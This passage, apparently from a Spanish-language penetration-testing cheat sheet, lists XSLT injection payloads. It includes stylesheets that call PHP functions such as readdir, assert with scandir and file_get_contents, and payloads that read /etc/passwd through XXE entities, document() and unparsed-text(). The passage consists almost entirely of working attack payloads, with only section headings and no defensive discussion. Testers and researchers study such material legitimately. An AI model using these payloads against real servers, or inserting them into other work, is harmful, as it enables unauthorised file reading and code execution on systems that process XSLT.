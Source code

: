 ```xml
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```
### **Afirmar (var\_dump + scandir + falso)**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)))==3')" />
<br />
</body>
</html>
```
## Leer archivos

### **Interno - PHP**
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', ‘utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
### **Interno - XXE**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```
### **A través de HTTP**
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

```xml
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```
### **Interno (función PHP)**
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
```